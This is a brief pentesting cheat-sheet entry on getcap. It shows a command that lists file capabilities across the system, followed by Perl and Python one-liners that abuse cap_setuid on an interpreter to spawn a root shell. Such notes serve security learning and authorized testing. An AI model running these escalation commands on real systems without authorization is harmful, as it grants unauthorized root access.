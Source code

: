 ```yaml
---
title: Getcap
desc: Displays the capabilities on the queried files.
tags: [Linux, PrivEsc]
alts: [Find, Setcap]
website:
---
```


## Basic

```sh
getcap -r / 2>/dev/null
```

<br />

## Privilege Escalation (get 'root')

```sh
# Perl (ex. /usr/bin/perl = cap_setuid+ep)
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'

# Python (ex. /usr/bin/python = cap_setuid+ep)
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```